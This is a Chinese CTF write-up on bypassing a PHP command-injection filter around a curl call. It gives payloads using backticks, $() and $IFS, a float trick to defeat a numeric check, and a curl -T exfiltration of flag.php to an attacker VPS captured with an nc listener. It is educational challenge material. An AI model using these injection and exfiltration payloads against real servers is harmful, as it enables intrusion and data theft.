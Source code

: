 ```yaml
---
title: 【CTF】绕过curl命令执行过滤
date: 2017-04-08 13:08:40
categories: CTF
tags:
    - curl
    - 命令执行
---
```


## 常见命令执行

```php
system("curl $cmd");
```

用上面php代码为例, 存在命令执行，由于没有回显，需要自己搭建服务器接收数据，这里就不过多叙述。常用命令执行有: `` ` ``, ` $() `, 如:

```
curl vps.com/`whoami`
curl vps.com/$(whoami)

# IFS绕过空格
curl$IFSvps.com/$(whoami)
curl${IFS}vps.com/$(whoami)

# base64 编码绕过空格或特殊字符过滤
curl vps.com/$(id|base64)
```

<!-- more -->

## CTF实例

```php
<?php

error_reporting(E_ALL || ~E_NOTICE);

function strreplace($str){
    $str = str_replace('`','',$str);
    $str = str_replace(';','',$str);
    $str = str_replace('|','',$str);
    $str = str_replace('&','',$str);
    $str = str_replace('>','',$str);
    $str = str_replace('<','',$str);
    $str = str_replace('(','',$str);
    $str = str_replace(')','',$str);
    $str = str_replace('{','',$str);
    $str = str_replace('}','',$str);
    $str = str_replace('%','',$str);
    $str = str_replace('#','',$str);
    $str = str_replace('!','',$str);
    $str = str_replace('?','',$str);
    $str = str_replace('@','',$str);
    $str = str_replace('+','',$str);
    $str = str_replace('/','',$str); //这句是为了保证服务器安全的,防止利用../ 和 绝对路径 进行任意文件读取,与次题目解答无关


    $str = str_replace(':','',$str);  //添加这一句

    return $str;
}


if($_GET['num']<>""){
    $num = $_GET['num'];
    if(strstr($num,'1')){
        die("Sorry");
    }elseif($num <> 1){
        echo "Try to num = 1";
    }

    if($num == 1 ){
        echo "Flag in http://127.0.0.1/flag.php"."</br>";
        $cmd=trim($_GET['cmd']);
        $cmd=strreplace($cmd);

        system("curl$cmd/flag.php");
    }
} else {
    echo "It Works!";
}

?>
```

### 思路

#### num参数判断

get传递的num参数需要==1，但是又经过strstr()函数，即num中不能存在1，这里利用php特性，0.99999999999999就会产生小数下标溢出为1，即可绕过第一步；

#### cmd参数过滤

`curl$cmd/flag.php`，curl紧贴cmd参数，中间没有空格

```
trim()函数过滤了cmd两端的空格，可以用 $IFS 绕过，
经过strreplace()函数，将一部分符号过滤掉了，并未过滤 $ ;
```

`%`过滤了，不能利用`%0a`换行符来绕过；`;`分号，`&`逻辑与，`|`逻辑或，都过滤掉了。

#### 读flag内容

* 利用 `file`协议

```
http://192.168.1.101/index.php?num=0.99999999999999999999&cmd=$IFSfile:///$PWD
```

file协议常见格式如下:

```
# *nix
file://localhost/etc/fstab
file:///etc/fstab

# windows
file://localhost/c|/WINDOWS/clock.avi
file:///c|/WINDOWS/clock.avi
file://localhost/c:/WINDOWS/clock.avi
# Here is the URI as understood by the Windows Shell API
file:///c:/WINDOWS/clock.avi

# network location:

file://hostname/path/to/file.txt
```

另外：`$PWD`要大写，因为在PHP中内核常量必须要求大写；php中`file协议`读取出来的文件内容会放到网页源代码中，右键查看源代码即可看到内容。

但是这种方式不适合本题, 题目过滤了`/`。

* curl -T 上传文件到主机并通过监听来获取文件内容

curl不仅仅可以下载文件，还可以上传文件，通过内置`option -T`来实现, 这就可以利用curl的这个功能来将文件PUT上传给我们的主机，由于PUT method是HTTP的，所以主机需要支持web服务，然后带上端口, 由于题目过滤了`:`，于是只能使用80端口了。

```
http://192.168.1.101/index.php?num=0.99999999999999999999&cmd=$IFS-T flag.php -a your_vps_ip
```

然后再vps上监听80端口`nc -lvv 80`，即可拿到文件内容

```
root@iZbyhbtw2xco3tZ:~# nc -lvv 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from [121.194.2.43] port 80 [tcp/http] accepted (family 2, sport 40156)
PUT /flag.php HTTP/1.1
User-Agent: curl/7.19.7 (x86_64-redhat-linux-gnu) libcurl/7.19.7 NSS/3.21 Basic ECC zlib/1.2.3 libidn/1.18 libssh2/1.4.2
Host: 120.25.91.96
Accept: */*
Content-Length: 91
Expect: 100-continue

<?php

die("小样,还想偷看flag!");

$flag="flag{0fNcf32079b7L6e71021d8Qcd70e32lp}";
```

## 后记

IFS变量，IFS是internal field separator的缩写，shell的特殊环境变量。ksh根据IFS存储的值，可以是空格、tab、换行符或者其他自定义符号，来解析输入和输出的变量值
